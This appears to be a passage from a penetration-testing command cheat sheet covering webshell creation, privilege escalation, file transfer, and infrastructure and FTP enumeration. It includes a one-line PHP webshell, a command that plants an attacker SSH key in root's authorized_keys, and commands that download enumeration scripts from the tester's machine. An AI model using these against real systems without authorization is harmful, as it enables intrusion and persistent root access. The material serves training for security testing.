 | `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Create a webshell php file                                            |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Execute a command on an uploaded webshell                             |
| **Privilege Escalation**                                                              |                                                                       |
| `./linpeas.sh`                                                                        | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                             | List available `sudo` privileges                                      |
| `sudo -u user /bin/echo Hello World!`                                                 | Run a command with `sudo`                                             |
| `sudo su -`                                                                           | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                      | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                   | Create a new SSH key                                                  |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`          | Add the generated public key to the user                              |
| `ssh root@10.10.10.10 -i key`                                                         | SSH to the server with the generated private key                      |
| **Transferring Files**                                                                |                                                                       |
| `python3 -m http.server 8000`                                                         | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                              | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                                      | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                                                   | Convert a file to `base64`                                            |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`                                     | Convert a file from `base64` back to its orig                         |
| `md5sum shell`                                                                        | Check the file's `md5sum` to ensure it converted correctly            |


##  Infrastructure-based Enumeration

| **Command**                                                         | **Description**                              |
| ------------------------------------------------------------------- | -------------------------------------------- |
| `curl -s https://crt.sh/\?q\=<target-domain>\&output\=json \| jq .` | Certificate transparency.                    |
| `for i in $(cat ip-addresses.txt);do shodan host $i;done`           | Scan each IP address in a list using Shodan. |

### Host-based Enumeration

##### FTP

|**Command**|**Description**|
|---|---|
|`ftp <FQDN/IP>`|Interact with the FTP service on the target.|
|`nc -nv <FQDN/IP> 21`|Interact with the FTP service on the target.|
|`telnet <FQDN/IP> 21`|Interact with the FTP service on the target.|
|`openssl s_client -connect <FQDN/IP>:21 -starttls ftp`|Interact with the FTP service on the target using encrypted connection.|
|`wget -m --no-passive ftp://anonymous:anonymous@<target>`|Download all available files on the target FTP server.|
